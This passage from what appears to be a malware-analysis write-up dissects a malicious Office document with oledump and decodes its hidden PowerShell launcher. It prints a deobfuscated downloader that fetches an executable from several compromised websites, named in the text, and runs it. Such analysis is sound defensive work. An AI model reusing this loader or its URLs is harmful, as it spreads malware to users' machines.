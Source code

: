     
    
    $ oledump.py -s 20 cdc216f48ec57a6c822139b6534330e8feea8b7bc83ad85614fa52ca372413c2 | head
    00000000: 00 02 24 08 01 01 40 80  00 00 00 00 1B 48 80 2C  ..$...@......H.,
    00000010: 0C 08 00 80 1A 00 00 00  23 00 00 00 4A 41 42 55  ........#...JABU
    00000020: 41 44 63 41 58 77 41 32  41 44 51 41 4E 51 41 7A  ADcAXwA2ADQANQAz
    00000030: 41 44 4D 41 50 51 41 6E  41 47 4D 41 58 77 41 33  ADMAPQAnAGMAXwA3
    00000040: 41 44 51 41 4E 51 41 33  41 44 63 41 4A 77 41 37  ADQANQA3ADcAJwA7
    00000050: 41 43 51 41 54 67 41 7A  41 44 6B 41 4E 51 42 66  ACQATgAzADkANQBf
    00000060: 41 46 38 41 4E 67 41 31  41 43 41 41 50 51 41 67  AF8ANgA1ACAAPQAg
    00000070: 41 43 63 41 4D 67 41 30  41 43 63 41 4F 77 41 6B  ACcAMgA0ACcAOwAk
    00000080: 41 47 34 41 4D 41 41 79  41 44 49 41 58 77 41 30  AG4AMAAyADIAXwA0
    00000090: 41 44 45 41 50 51 41 6E  41 47 4D 41 4D 77 41 30  ADEAPQAnAGMAMwA0
    ...[snip]...
    

I can see the same in streams 21-25, with a name of `R1136_` and contents:

    
    
    $ oledump.py -s 25 cdc216f48ec57a6c822139b6534330e8feea8b7bc83ad85614fa52ca372413c2 
    00000000: 00 02 5C 00 01 01 40 80  00 00 00 00 1B 48 80 2C  ..\...@......H.,
    00000010: 43 00 00 80 1A 00 00 00  23 00 00 00 77 65 72 73  C.......#...wers
    00000020: 68 65 6C 6C 20 2D 45 78  65 63 75 74 69 6F 6E 50  hell -ExecutionP
    00000030: 6F 6C 69 63 79 20 62 79  70 61 73 73 20 2D 57 69  olicy bypass -Wi
    00000040: 6E 64 6F 77 53 74 79 6C  65 20 48 69 64 64 65 6E  ndowStyle Hidden
    00000050: 20 2D 6E 6F 70 72 6F 66  69 6C 65 20 2D 65 20 54   -noprofile -e T
    00000060: 00 02 18 00 35 00 00 00  07 00 00 80 E1 00 00 00  ....5...........
    00000070: 00 02 00 00 43 61 6C 69  62 72 69 0A              ....Calibri.
    

Now it all comes together.

    
    
    "po" + "wershell -ExecutionPolicy bypass -WindowStyle Hidden -noprofile -e " + "JABUADcAX...[snip]...JwA=", 0, Winmgmts:Win32_ProcesSstartup.ShowWindow = 0, 0
    

## PowerShell Payload

Now that I have a PowerShell Payload, I’ll take that and toss it into
[CyberChef](https://gchq.github.io/CyberChef):

![1558418723657](https://0xdfimages.gitlab.io/img/1558418723657.png)

The PowerShell cleans up to (including adding whitespace and removing useless
lines):

    
    
    $N395__65 = '24';
    $k837_0 = $env:userprofile + '\'+$N395__65+'.exe';
    $M21418=&('new- object') NET.WEBCLIEnT;
    $B288603='http://saminprinter.com/wp-includes/yrkvm4vyy_ybidb-43745207/@http://santuarioaparecidamontese.com.br/wp-includes/7jn9p7_qou49bjodx-33953/@http://serwiskonsol.com/wp-content/JEsfYuiPMv/@https://ppdiamonds.co/wp-content/m45zv037uc_nent85daai-282067/@http://aworldtourism.com/wp-includes/1fcjc8_m4lnj7ffng-755100/'.SPlit('@');
    foreach($k968826_ in $B288603){
      try{
        $M21418.dOwnloadfILe($k968826_, $k837_0);
        If ((Get-Item $k837_0).LENgtH -ge 21258) {
          Invoke-Item $k837_0;
          break;
        }
      }catch{
      }
    }
    